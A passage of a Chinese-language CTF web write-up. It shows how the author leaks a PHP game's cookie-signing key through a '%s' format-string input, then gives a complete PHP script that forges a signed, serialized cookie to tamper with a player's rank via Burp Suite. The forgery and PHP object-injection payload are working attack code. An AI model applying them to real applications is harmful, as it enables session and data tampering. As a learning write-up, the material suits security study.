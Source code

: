 <p>输入名字`%s`就得到了<code>encryptKey</code></p>

![](https://img.blueflame.org.cn/images/2020/02/week3-web-5.png)</p>

<p>然后就可以构造cookie了，我们可以看到这里需要<code>monsterData</code>和<code>encryptKey</code>，而<code>monsterData</code>就是我们需要修改的地方。</p>

<pre class="wp-block-code"><code lang="php" class="language-php">private function Save(){
        $sign = md5(serialize($this->monsterData) . $this->encryptKey);
        setcookie('monster', base64_encode(serialize($this->monsterData) . $sign));
    }</code></pre>

<p>这里的<code>$this->encryptKey</code>是在创建这个<code>Monster</code>类的时候传递进来的，就是<code>Game</code>类中的<code>sign</code>，<code>sign</code>生成的代码就是之前<code>sprintf</code>漏洞的那个循环，通过<code>playerName</code>和<code>encryptKey</code>md5加密生成的。</p>

<pre class="wp-block-code"><code lang="php" class="language-php">public function __construct($key){

        $this->encryptKey = $key;
        if(!isset($_COOKIE['monster'])){
            $this->Set();
            return;
        }</code></pre>

<p>终于理清了变量之间的关系，那么就开始构造，下面是payload</p>

<pre class="wp-block-code"><code lang="php" class="language-php"><?php
class Rank {
    private $rank=1;    //修改rank
}

$encryptKey = 'gkUFUa7GfPQui3DGUTHX6XIUS3ZAmClL';   //签cookie的密匙

$monsterData = array(

    'name' => new Rank(),       //触发反序列化，当调用name的时候，rank就会更新成1
    'no' => rand(1, 2000),
);

$sign='';
$playerName='123';              //随便设个名字，只要和POST上去的一样就行了
$data = [$playerName, $encryptKey];
foreach($data as $key => $value){
    $sign .= md5($sign . $value);
}
$encryptKey=$sign;
$sign = md5(serialize($monsterData) . $encryptKey);
$cookiedata=base64_encode(serialize($monsterData) . $sign);

echo($cookiedata);
?></code></pre>

<p>跑一下就生成我们需要的cookie</p>

![](https://img.blueflame.org.cn/images/2020/02/week3-web-9.png)</p>

<p>最后用Burp Suite截包替换cookie即可</p>
